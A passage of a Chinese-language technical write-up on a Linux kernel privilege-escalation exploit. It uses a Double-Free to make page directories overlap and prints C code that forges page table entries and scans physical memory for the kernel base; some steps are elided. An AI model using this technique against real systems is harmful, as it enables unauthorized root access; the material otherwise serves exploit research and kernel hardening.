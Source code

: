 **脏页目录原理**：之前通过Double-Free构造了 `mm->pgd[0][1]`（PMD）==`mm->pgd[0][2][0]`（PTE），**因此`mm->pgd[0][1][x]`（PTE）== `mm->pgd[0][2][0][x]`（用户空间页）**，其中 `x = 0->511`。这意味着我们**可以用512个用户页覆写和PMD重叠的512个PTE，这512个PTE负责另外512个用户页**，也就是说我们一次可以设置`512 * 512 * 0x1000 = 0x4000'0000`（1G）内存。

**代码实现**：为了便于理解，以下使用512个PTE中的2个PTE，分别用作`pmd_kernel_area`（用于搜索内核基址）和`pmd_data_area`（用于搜索内核内存的内容）。

```c
// privesc_flh_bypass_no_time() —— 用于搜索内核基址
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (setup dirty pagedirectory)

// 2. 查找内核物理基地址 （每次扫描512页，对应1个PTE页）
	// range = (k * j) * CONFIG_PHYSICAL_ALIGN
	for (int k=0; k < (CONFIG_PHYS_MEM / (CONFIG_PHYSICAL_ALIGN * 512)); k++)
	{
		unsigned long long kernel_iteration_base;

		kernel_iteration_base = k * (CONFIG_PHYSICAL_ALIGN * 512);
		// 2-1. 伪造PTE页，指向待扫描的物理地址
		PRINTF_VERBOSE("[*] setting kernel physical address range to 0x%016llx - 0x%016llx\n", kernel_iteration_base, kernel_iteration_base + CONFIG_PHYSICAL_ALIGN * 512);
		for (unsigned short j=0; j < 512; j++)
			pte_area[j] = (kernel_iteration_base + CONFIG_PHYSICAL_ALIGN * j) | 0x8000000000000867;
		// 2-2. flush TLB （在子进程中调用munmap()取消映射，会将父进程中的TLB一起刷新）
		flush_tlb(_pmd_area, 0x400000);

		// 2-3. 每次迭代扫描1个PTE页（而不是CONFIG_PHYSICAL_ALIGN），根据指纹查找内核物理基址
		for (unsigned long long j=0; j < 512; j++) 
		{
			unsigned long long phys_kernel_base;
		
			// 检查内核代码节的x64-gcc/clang签名信息
			// - "kernel base" 指的是start_64()函数或者变体的汇编码地址
			// - 不同架构、编译器的签名信息都不同（例如clang的和gcc的不同）
			// - 可从vmlinux文件获取该基址，通过检查第2个segment，通常从二进制文件的0x200000偏移开始
			//   - i.e: xxd ./vmlinux | grep '00200000:'
		// 根据签名来判断是否为内核物理基址
			phys_kernel_base = kernel_iteration_base + CONFIG_PHYSICAL_ALIGN * j;

			PRINTF_VERBOSE("[*] phys kernel addr: %016llx, val: %016llx\n", phys_kernel_base, *(unsigned long long*)(pmd_kernel_area + j * 0x1000));

			if (is_kernel_base(pmd_kernel_area + j * 0x1000) == 0)
				continue;

            // ... (rest of the exploit)
		}
	}

	printf("[!] failed to find kernel code segment... TLB flush fail?\n");
	return;
}
```
